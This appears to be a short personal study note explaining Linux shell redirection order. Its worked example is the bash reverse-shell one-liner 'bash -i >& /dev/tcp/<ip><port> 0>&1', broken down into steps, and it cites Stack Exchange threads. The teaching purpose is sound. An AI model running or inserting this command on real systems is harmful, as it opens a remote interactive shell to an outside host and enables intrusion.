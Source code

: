 # redirection in Linux

Redirections in Linux can be interpreted as following:

1. Redirections are run from left to right.
2. `>` is similar to `=`, which is an assignment
3. `&` is close to `$` in bash, which indicates variables

For the example in [[201911041338]],

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

Here are three parts:

1. `bash -i` which is the command to launch new shell
2. `>& /dev/tcp/<ip><port>`, which redirects the stdout of 1 to `/dev/tcp/<ip><port>` as the stdin
3. `0>&1` redirects the stdin as the stdout

The process steps are shown as following:

Initial status of `bash -i`
0=stdin
1=stdout

after `>& /dev/tcp/<ip><port>`

0=stdin
1=(stdin of) `/dev/tcp/<ip><port>` (the stdin is default)

after `0>&1`

0=(stdout of) `/dev/tcp/<ip><port>`
1=(stdin of) `/dev/tcp/<ip><port>`


Ref: [^9E9D0123FC2D] [^158BD4883761]

[^158BD4883761]: [[shell - What does "3>&1 1>&2 2>&3" do in a script? - Unix & Linux Stack Exchange]]

[^9E9D0123FC2D]: [[bash - Order of redirections - Unix & Linux Stack Exchange]]
